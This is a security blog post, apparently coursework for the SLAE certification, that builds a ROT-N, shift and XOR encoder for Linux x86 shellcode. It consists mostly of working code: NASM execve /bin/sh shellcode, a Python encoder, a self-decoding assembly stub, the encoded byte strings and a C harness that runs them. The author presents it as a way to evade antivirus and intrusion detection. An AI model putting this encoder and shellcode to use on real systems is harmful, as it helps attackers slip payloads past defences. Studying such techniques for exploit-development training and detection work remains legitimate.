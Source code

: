 ```yaml
---
layout: single
title: [ Rot-n + Shift-n + Xor-n] Shellcode Encoder - Linux x86
date: 2018-1-22
classes: wide
header:

---
```


Introduction
------------
According to English dictionary, encode is converting something, such as a body of information from one system of communications to another; especially: to convert a message into code. This blog post will combine three basic encoding operations (more on that later) to encode sample shellcode and then decode/execute it to demonstrate the concept.

Encoder
-------
In this section, we’ll create 3-phase encoder that takes one byte of given shellcode at a time, mangle it and then produce an encoded word (2 bytes). The following will describe what each phase will do. Phase I (ROT-N), in this phase we add number N to shellcode byte. Phase II (Shift-N), in this phase we shift `stdout` from phase one to left by N. Phase III (XOR-N), here we just XOR `stdou`t from phase two to get the final encoded word. Before we start working on the encoder, let’s write shellcode that spawn shell to test with.

```nasm
global _start			

section .text

_start:
    ;
    ; execve() code block
    ;
    xor eax,eax       ; initiliaze EAX
    push eax          ; push null terminator
    push 0x68732f2f   ; push /bin//sh
    push 0x6e69622f
    xchg ebx,esp      ; save stack pointer to EBX
    mov al,0xb        ; __NR_execve 11
    int 0x80          ; ping kernel!
```

Let’s compile `execve()` code block and then dump shellcode.

```sh
ihack4falafel@ubuntu:~$ nasm -f elf32 -o sh.o sh.nasm 
ihack4falafel@ubuntu:~$ ld -z execstack -o sh sh.o
ihack4falafel@ubuntu:~$ objdump -d ./sh|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80"
ihack4falafel@ubuntu:~$ 
```

We’ll create python script that takes ROT, Shift, and XOR as user input and print original and encoded shellcode, please note you still need to update the shellcode inside the script to your liking. For this post, we’ll use the one created earlier.  It’s worth noting that the script shift operation number can only be anything between 1 and 8 bits due to `encoded_shellcode` size (word) in the decoder. Also, we’ve added XOR input value to the end of the encoded shellcode as terminator, so if XOR operation in the decoder results in zero that means hey stop decoding.

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = Encoder.py                                                                  #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = [ROT-N + SHL-N + XOR-N] Encoder                                             #
# Date          = 1/19/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python Encoder.py <ROT number> <number of bits to shift> <XOR number>       #
#---------------------------------------------------------------------------------------------#

import sys

# Colors 
#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check ROT, SHL, and XOR input, otherwise print usage, example, and important notes!
if len(sys.argv) < 4:
  print Y+ "Usage               :" + P+  " python Encoder.py <ROT number> <number of bits to shift> <XOR number>  " +W
  print Y+ "Example             :" + P+  " python Encoder.py 13 1 1337                                            " +W
  print Y+ "Notes               :" + P+  " 1) Make sure to update Decoder.nasm with input values.                 " +W
  print    "                     " + P+  " 2) Due to encoded_shellcode size (word) in Decoder.nasm, shift operatio" +W
  print    "                     " + P+  "    n is limited to <1-8> bits. Feel free to upgrade size to DW to allow" +W
  print    "                     " + P+  "    up to 16-bits shift operation.                                      " +W
  print    "                     " + P+  " 3) Encoder.py currently include /bin/sh shellcode as proof of concept. " +W
  print    "                     " + P+  "    Make sure to change it to your desired shellcode.                   " +W
  sys.exit(0)

ROT     = int(sys.argv[1])
nbits   = int(sys.argv[2])
XOR     = int(sys.argv[3])

# initial values   
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80")           # paste your shellcode here
XOR_HEX = hex(XOR)                                                                                     # Encoded shellcode terminator     
encoded_shellcode  = "" 
original_shellcode = ""

# Orginal shellcode formatted
for x in bytearray(shellcode):
  original_shellcode += '0x'
  original_shellcode += '%02x, ' %x

# [ROT-N + SHL-N + XOR-N] encoded shellcode formatted   
for y in bytearray(shellcode):  
  byte = (y + ROT)%256                                                                                  #|-->ROT-N               
  byte = byte << nbits                                                                                  #########|-->SHL-N
  byte = byte ^ XOR                                                                                     #################|-->XOR-N	                                                                                  
  encoded_shellcode += '0x'
  encoded_shellcode += '%02x, ' %byte

# print original and encoded shellcode
print Y+ "Original Shellcode: " + P+ original_shellcode              +W
print Y+ "Encoded Shellcode : " + P+ encoded_shellcode  + Y+ XOR_HEX +W
```

Generate encoded shellcode.

```sh
ihack4falafel@ubuntu:~$ python Encoder.py 13 1 1337
Original Shellcode: 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x87, 0xdc, 0xb0, 0x0b, 0xcd, 0x80, 
Encoded Shellcode : 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
ihack4falafel@ubuntu:~$
```

Decoder
-------
Now comes the decoding part, let’s write code that basically takes encoded shellcode produced earlier , decode it in reverse order and then execute.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to ESI
	
decoder:

    pop esi                      ; store encoded_shellcode pointer in ESI
    push esi                     ; push encoded_shellcode pointer to stack for later execution
    mov edi, esi                 ; move encoded_shellcode pointer to EDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [esi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [edi], al                ; move decoded byte to EDI	
    inc esi                      ; point to the next encoded_shellcode word
    inc esi
    inc edi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [esp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
```

Compile and dump shellcode.

```sh
ihack4falafel@ubuntu:~# nasm -f elf32 -o Decoder.o Decoder.nasm 
ihack4falafel@ubuntu:~# ld -z execstack -o Decoder Decoder.o
ihack4falafel@ubuntu:~# objdump -d ./Decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05"
ihack4falafel@ubuntu:~#
```

Add it to final exploit.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Demo time


[![Encoder/Decoder Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/252202488?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I believe learning shellcode encoding is essential to exploit development, in order to evade modern anti-viruses and/or intrusion detection/prevention systems. Please note all of the code in this post were tested on Ubuntu 12.04.5 LTS. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204)
